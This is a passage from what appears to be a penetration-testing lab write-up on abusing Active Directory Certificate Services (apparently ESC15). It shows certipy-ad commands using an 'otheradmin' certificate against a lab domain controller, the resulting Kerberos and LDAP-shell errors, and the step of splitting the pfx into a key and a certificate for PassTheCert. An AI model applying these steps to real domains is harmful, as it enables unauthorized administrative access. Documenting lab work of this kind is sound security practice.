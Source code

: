 If we now authenticate using the pfx, the following error is shown:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_INCONSISTENT_KEY_PURPOSE(Certificate cannot be used for PKINIT client authentication)
```

[This article](https://abrictosecurity.com/esc15-the-evolution-of-adcs-attacks/) pops up if we Google it. Which describes the same error. It states that:

>When attempting to authenticate, we encounter an error stating KDC_ERR_INCONSISTENT_KEY_PURPOSE, which indicates that the certificate cannot be used for Kerberos authentication. While this prevents us from getting a ticket granting ticket for the user, we can still pass the certificate using one of a few methods that can be found here. For our case we will use Certipy as it comes with a built-in argument that handles all of this for us.

The article continues by using the `-ldap-shell` parameter. In the article, this seemed to work. But when I reproduced it, it had the following error:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -username otheradmin -domain testcorp.local -ldap-shell -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://172.17.199.253:636'
[*] Authenticated to '172.17.199.253' as: None
[-] Got error: 'NoneType' object has no attribute 'other'
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/certipy/entry.py", line 60, in main
    actions[options.action](options)
  File "/usr/lib/python3/dist-packages/certipy/commands/parsers/auth.py", line 12, in entry
    auth.entry(options)
  File "/usr/lib/python3/dist-packages/certipy/commands/auth.py", line 658, in entry
    authenticate.authenticate()
  File "/usr/lib/python3/dist-packages/certipy/commands/auth.py", line 159, in authenticate
    return self.ldap_authentication()
           ^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/certipy/commands/auth.py", line 333, in ldap_authentication
    root = ldap_server.info.other["defaultNamingContext"][0]
           ^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'other'
```

With PassTheCert.py I did get a ldap-shell but as the `None` user:

```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nocert -out otheradmin.key   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'otheradmin.key'
                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ certipy-ad cert -pfx otheradmin.pfx -nokey -out otheradmin.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'otheradmin.crt'

┌──(kali㉿kali)-[~]
```